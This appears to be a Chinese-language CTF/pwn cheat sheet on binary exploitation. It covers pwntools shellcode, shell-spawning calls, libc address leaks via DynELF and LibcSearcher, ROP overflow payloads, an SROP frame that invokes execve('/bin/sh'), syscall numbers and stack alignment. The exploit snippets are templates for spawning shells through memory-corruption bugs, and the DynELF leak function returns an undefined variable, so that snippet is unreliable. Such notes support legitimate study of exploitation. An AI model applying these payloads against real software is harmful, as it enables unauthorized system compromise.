 ## 0x001-获取系统权限方式

### 编写shellcode

使用pwntools生成shellcode

```
context(arch='amd64', os='linux')
shellcode = asm(shellcraft.sh())
```

```
context(arch='i386', os='linux')
shellcode = asm(shellcraft.sh())
```

### 执行命令获取系统权限

1. system("/bin/sh")
2. system("sh")
3. system("$0")
4. execve("/bin/sh", 0, 0) # syscall rax=59

## 0x002-敏感函数

|  敏感函数  |  结束标志  |
|  :----:  | :----:  |
|  printf  |  \x00  |
|  scanf  |    |
|  puts  |    |
|  gets  |  \x0A  |
|  read  |    |
|  write  |    |
|  strcpy  |    |
|  strcmp  |  \x00  |
|  strlen  |  \x00  |

## 0x003-泄露libc地址

### DynELF

```
def leak(addr):
    payload = b"A" * 140 + p32(write_plt) + p32(main_addr) + p32(1) + p32(addr) + p32(4)
    p.sendline(payload)
    result_addr = p.recv(4)
    return return_addr

d = DynELF(leak, elf=elf)
system_addr = d.lookup('system', 'libc')
```

### LibcSearcher

```
payload = b"\x00" * 88 + p64(pop_rdi_ret) + p64(gets_got) + p64(puts_plt) + p64(main_addr)
p.sendline(payload)
gets_real_addr = u64(p.recv(6).ljust(8, b'\0'))
libc = LibcSearcher("gets", gets_real_addr)

libcbase = gets_real_addr - libc.dump("gets")
system_addr = libcbase + libc.dump("system")
bin_sh_addr = libcbase + libc.dump("str_bin_sh")
```

在使用LibcSearcher时，如果出现这种状况：

![](1.png)

则需要重新下载libc库。

安装步骤如下：

1. 进入LibcSearcher的安装目录中，执行命令删除libc-database目录
   ```
   rm -rf libc-database
   ```
2. 重新下载libc-database文件夹
   ```
   git clone https://github.com/niklasb/libc-database 
   或
   git clone git://github.com/niklasb/libc-database
   ```
3. 进入libc-database目录中，执行命令
   ```
   ./git ubuntu
   ```
4. 等待安装完成即可

## 0x004-构造SROP

```
sigframe = SigreturnFrame()
sigframe.rax = 59
sigframe.rdi = bin_sh_addr
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rip = syscall_ret_addr
```

https://www.wangan.com/docs/1081

## 0x005-syscall和int 0x80

系统调用常见函数(64位系统)

|  系统调用号  |  函数  |
|  :----:  | :----:  |
|  0  |  read  |
|  1  |  write  |
|  15  |  rt_sigreturn  |
|  59  |  execve  |

https://blog.csdn.net/sinat_26227857/article/details/44244433

## 0x006-栈对齐

在ubuntu18以上的版本，64位程序中如果调用system("/bin/sh")，则需要考虑堆栈平衡问题。

因为在ubuntu18以上的版本，64位的程序中调用system函数时，有如下指令

![](2.png)

> movaps : 该指令必须16字节对齐，说明 **$rsp+0x40** 处的地址值必须是16的倍数

那么就需要在调用call system时，保证 **$rsp+0x40** 处的地址值是16的倍数，下图是没对齐的情况

![](3.png)

## 0x007-常用汇编指令

|  汇编语言  |  机器码  |  含义  |
|  :----:  | :----:  | :----:  |
|  leave  |  0xc9  | mov esp, ebp; <br> pop ebp; |